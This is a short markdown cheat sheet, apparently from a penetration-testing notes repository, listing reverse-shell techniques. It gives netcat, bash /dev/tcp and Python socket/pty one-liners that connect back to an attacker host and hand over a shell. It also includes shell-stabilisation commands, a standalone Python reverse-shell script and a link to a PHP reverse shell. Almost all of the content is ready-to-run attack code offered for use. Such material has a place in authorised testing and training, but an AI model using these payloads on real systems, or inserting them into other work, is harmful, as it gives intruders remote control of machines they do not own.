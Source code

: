 # Reverse Shells

## One line bash

```bash
# Reverse shell with netcat
nc TARGET PORT -e /bin/bash

# Reverse shell with /dev
bash -i >& /dev/tcp/192.168.1.7/6666 0>&1

# Reverse shell with python3
export RHOST="target.local";export RPORT=3000; python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

## Stabilize shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl + Z
stty raw -echo; fg
export TERM=xterm
```

## Python code

```python
import socket,os,pty

RHOST="target.local"
RPORT=3000

s=socket.socket()
s.connect((RHOST,int(RPORT)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```

## PHP reserve shell

[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)